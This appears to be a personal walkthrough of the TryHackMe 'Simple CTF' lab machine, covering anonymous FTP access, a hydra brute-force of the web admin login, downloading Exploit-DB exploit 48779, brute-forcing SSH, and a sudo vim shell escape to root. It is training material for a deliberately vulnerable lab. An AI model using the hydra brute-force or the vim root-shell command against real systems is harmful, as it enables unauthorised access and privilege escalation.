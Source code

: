Machine: THM - Simple CTF

# Initial Foothold

## FTP

FTP anonymous login.
Download file "ForMitch.txt":
```txt
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```
=> New username: mitch
=> Password reuse for root?

## HTTP

Dirbuster dir brute force.
=> http://10.10.118.197/simple/admin/login.php

Brute login with hydra:
```bash
hydra -l mitch -P /usr/share/wordlists/rockyou.txt 10.10.118.197 http-post-form \
"/simple/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=incorrect"
```

Success:
![[Pasted image 20240427123047.png]]

Download exploit:
```bash
searchsploit -m 48779
```
Run exploit:
![[Pasted image 20240427123446.png]]
Catch shell:
![[Pasted image 20240427123514.png]]
## SSH

Brute-force *mitch* SSH login: 
![[Pasted image 20240427121137.png]]
=> secret

**SSH creds:**
mitch:secret

![[Pasted image 20240427121338.png]]

Proof:
![[Pasted image 20240427121858.png]]

# PrivEsc

Check sudo privs:
![[Pasted image 20240427121500.png]]

Exploit sudo vim:
https://gtfobins.github.io/gtfobins/vim/

```bash
sudo vim -c ':!/bin/sh'
```

![[Pasted image 20240427121747.png]]

Proof:
![[Pasted image 20240427121817.png]]